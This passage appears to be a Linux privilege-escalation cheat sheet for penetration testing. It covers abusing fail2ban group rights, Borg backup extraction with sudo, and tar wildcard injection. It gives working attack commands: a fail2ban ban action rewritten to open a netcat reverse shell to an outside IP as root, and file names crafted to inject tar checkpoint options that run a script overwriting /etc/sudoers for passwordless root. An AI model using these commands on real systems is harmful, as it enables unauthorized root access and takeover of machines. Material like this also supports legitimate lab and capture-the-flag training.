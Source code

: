 If you're a part of the fail2ban group, check out the main configuration file which can be found at /etc/fail2ban/jail.conf. Look for how to get banned, as well as what the ban action is. If you can modify the ban file or action directly, you can make it give you a reverse shell onto the box as root.

```bash
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = /usr/bin/nc 192.168.45.163 873 -e /bin/sh
```

#### Borg

```bash
sudo borg list /opt/borgbackup/
sudo borg extract /opt/borgbackup/::home --stdout
```

#### Tar wildcard

```bash
tar cf /blah/bla *
tar xvf /blah/bla *

# 1. Create files in the current directory called
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'

# 2. Create a privesc.sh bash script, that allows for privilege escalation
#malicous.sh:
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```